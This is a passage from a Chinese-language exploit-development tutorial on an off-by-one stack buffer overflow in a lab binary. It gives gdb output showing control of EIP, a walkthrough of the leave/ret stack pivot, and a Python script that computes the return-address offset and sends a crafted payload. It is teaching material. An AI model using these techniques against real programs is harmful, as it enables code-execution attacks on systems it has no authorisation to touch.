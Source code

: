 ```bash
(gdb) r `python -c 'print "A"*256'`
Starting program: /home/sploitfun/lsploits/new/obo/stack/vuln `python -c 'print "A"*256'`

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

以上输出显示由于 EBP 覆盖，我们可以控制指令指针 (EIP)

step 2：目标缓冲区的偏移量是多少。

现在让我们找到目标缓冲区“buf”开头的偏移量，我们需要放置我们的返回地址。请记住，在 off-by-one 漏洞中，我们不会覆盖存储在堆栈中的实际返回地址（像我们在基于堆栈的缓冲区溢出中所做的那样），而是将攻击者控制的目标缓冲区“buf”内的 4 字节内存区域视为返回地址位置（在一次溢出后）。代替的，攻击者控制的目标缓冲区“buf”内的 4 字节内存区域将被视为返回地址位置（在 off-by-one 攻击之后）。

现在让我们尝试理解从 text 段地址 0x08048490 开始的 CPU 执行：

* 0x08048490 – call strcpy – 该指令执行导致 off-by-one 溢出，因此 foo 的 EBP 值（存储在堆栈位置 0xbffff2cc 中）从 0xbffff2d8 更改为 0xbffff200。
* 0x08048495 – leave – 退出指令清除此函数的堆栈空间并恢复 ebp。

```assembly
leave: mov ebp, esp;        //unwind stack space by setting esp to ebp. 
       pop ebp;             //restore ebp
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff2cc
       pop ebp;             //ebp = 0xbffff200 (Overwritten EBP value is now stored in ebp register); esp = 0xbffff2d0
```

* 0x08048495 – ret – 返回 foo 的指令 0x08048475
* 0x08048475 – leave – 退出指令清除此函数的堆栈空间并恢复 ebp。

```
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff200 (As part of unwinding esp is shifted down instead of up!!)
       pop ebp;             //ebp = 0x41414141; esp = 0xbffff204
```

* 0x08048476 – ret – 返回到位于 ESP (0xbffff204) 的指令。现在 ESP 指向攻击者控制的缓冲区，因此攻击者可以返回到他想要实现任意代码执行的任何地方。

现在让我们回到我们最初的测试，即从目标缓冲区“buf”中找到返回地址的偏移量。如我们的堆栈布局图所示，“buf”位于 0xbffff158，通过 CPU 执行，我们知道目标缓冲区“buf”内的返回地址位置位于 0xbffff204。因此，从“buf”到返回地址的偏移量是 0xbffff204 – 0xbffff158 = 0xac。因此，用户输入“A”*172 +“B”*4 +“A”*80 的形式，用“BBBB”覆盖 EIP。

```assembly
$ cat exp_tst.py 
#exp_tst.py
#!/usr/bin/env python
import struct
from subprocess import call

buf = "A" * 172
buf += "B" * 4
buf += "A" * 80

print "Calling vulnerable program"
call(["./vuln", buf])

$ python exp_tst.py 
Calling vulnerable program
$ sudo gdb -q vuln 
Reading symbols from /home/sploitfun/lsploits/new/obo/stack/vuln...(no debugging symbols found)...done.
(gdb) core-file core
```